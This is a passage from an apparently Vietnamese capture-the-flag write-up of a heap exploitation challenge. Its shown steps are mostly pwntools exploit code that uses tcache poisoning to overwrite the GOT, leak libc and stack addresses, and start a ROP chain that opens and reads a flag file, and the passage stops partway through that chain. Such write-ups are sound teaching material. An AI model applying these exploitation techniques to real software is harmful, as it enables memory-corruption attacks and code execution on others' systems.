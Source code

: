 Thực hiện lại các bước như trên ta sẽ ghi đè thằng free_got thành printf.plt:
```python
add(4,b"A"*32)
free(4)# tcahe 0x41 index 1
free(3)
payload=flat(
	0,0,
	0,0x41,
	p64((heap+0x3d70)>>12^(0x404018-0x18))# free got-0x18
	)
edit(2,payload)
add(3,b"A"*32) # take chunk3 out

add(8,flat(0,0,0,exe.plt['printf']))
free(1)
libc_leak=int.from_bytes(p.recvuntil(b"Your book has been thrown!",drop=True),'little')
log.info('[+]libc Leak:'+hex(libc_leak))
libc.address=libc_leak-libc.sym['printf']
log.info('[+]libc base:'+hex(libc.address))
```
Leak libc thành công!!!

# Bước 3 : leak stack 

Ta cũng làm tương tự như trên ,sử dụng environ để leak stack và sau đó tính saved_rip_main và ROP, và ta cũng cần ghi thằng free.got lại thành free để có thể tiếp tục sử dụng tcahe poisoning
```python
payload=flat(0x30,libc.sym['environ'],p64(0x30),p64(chunk2))
edit(9,payload)
free(1)
stack=int.from_bytes(p.recvuntil(b"Your book has been thrown!",drop=True),'little')
log.info('[+]Stack Leak:'+hex(stack))
saved_rip_main=stack-0x120
edit(8,flat(0,0,0,libc.sym['free']))
```
để ý rằng bây giờ ta có chunk9 chỉ đến chunk0 hay books . Vậy giờ ta chỉ cần edit chunk9 làm size của chunk thành số siêu to và chỉnh chunk1 chỉ đến địa chỉ của saved_rip_main và ta sẽ tạo ROP. thế thì cũng chẳng cần edit  để chỉnh free.got thành free àm gì =))

```python
payload=flat(
	b"./flag\x00\x00",0,
	0,0x41,
	0,0
	)
edit(2,payload)
### over write size of chunk1 and point chunk1 to saved rip of main
pop_rdi=libc.address+0x000000000002a3e5
mov_rax_rdi=libc.address+0x000000000013588f
pop_rax=libc.address+0x0000000000045eb0
pop_rsi=libc.address+0x00000000001303b2
pop_rdx_r12=libc.address+0x000000000011f497
syscall_ret=libc.address+0x0000000000091396
payload=flat(0x500,saved_rip_main)
edit(9,payload)

ROP=flat(
	pop_rax,2,
	pop_rsi,0,# O_RDONLY
	pop_rdi,chunk2,
	syscall_ret,
	# sysread
	#0x000000000005a2c1,# cli; mov rdi, rax; cmp rdx, rcx; jae 0x5a2ac; mov rax, r8; ret;
	pop_rax,0,
```